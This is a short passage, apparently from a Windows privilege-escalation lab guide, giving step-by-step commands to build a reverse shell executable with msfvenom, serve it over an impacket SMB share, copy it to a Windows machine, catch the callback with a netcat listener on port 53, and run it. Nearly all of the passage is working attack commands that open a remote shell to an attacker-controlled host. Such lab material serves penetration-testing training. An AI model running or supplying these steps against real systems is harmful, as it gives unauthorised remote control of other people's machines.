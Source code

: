 ### Generating a Reverse Shell Executable

On Kali, generate a reverse shell executable (reverse.exe) using msfvenom. Update the LHOST IP address accordingly:
```JavaScript
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe
```

Transfer using SMB server. On Kali, in the same directory as reverse.exe
```JavaScript
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
```

On Windows (update the IP address with your Kali IP)
```JavaScript
copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe
```

Setup netcat listener on Kali
```JavaScript
sudo nc -nvlp 53
```

Run reverse.exe on Windows
```JavaScript
C:\PrivEsc\reverse.exe
```
